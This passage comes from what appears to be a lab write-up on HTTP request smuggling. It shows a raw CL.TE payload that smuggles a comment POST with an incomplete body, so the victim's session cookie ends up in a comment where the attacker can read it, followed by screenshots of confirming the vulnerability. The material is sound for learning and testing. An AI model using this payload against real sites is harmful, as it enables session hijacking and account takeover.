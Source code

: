 **Smuggled Fat GET (Incomplete Body):**

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 330
0

POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 400
Cookie: session=attacker-session

csrf=abc&postId=2&name=Attacker&email=attacker@example.com&comment=
```

**Victim’s Request (Appended to Smuggled Request):**

```http
GET / HTTP/1.1
Host: vulnerable-website.com
Cookie: session=VictimSessionID
```

Result: The victim’s session ID becomes part of the `comment` field, and the attacker can retrieve it later by viewing the comment.

---

### Solution

In **http history** Browser to the lab URL and the traffic will start flowing into the proxy logs. Grab the GET request to / and send that to repeater.

<img width="1864" height="851" alt="image" src="https://github.com/user-attachments/assets/f0207ad8-fdce-4875-b48d-5d772a048928" />

### CL.TE vulnerabilities using differential responses


 This request now contains an invalid URL, the server will respond with status code **404**, indicating that the attack request did indeed interfere with it.
And confirm that **CL.TE** vulnerability exits.I have also try **TE.CL** but failed.

<img width="1896" height="783" alt="image" src="https://github.com/user-attachments/assets/1c71f497-088b-4d2d-96db-fb83c6c84685" />

Now we have identify how can we access admin or user cookie whos vist post.Soi There was comment functionality in the post,we have  commented on it

<img width="1146" height="848" alt="image" src="https://github.com/user-attachments/assets/22a334fe-3edf-42b6-bcc2-d7c7aa095a85" />

As we can see that we have commented hello on the post.

<img width="678" height="426" alt="image" src="https://github.com/user-attachments/assets/67d64bf4-852d-4c48-b4f5-ca56508f5c93" />
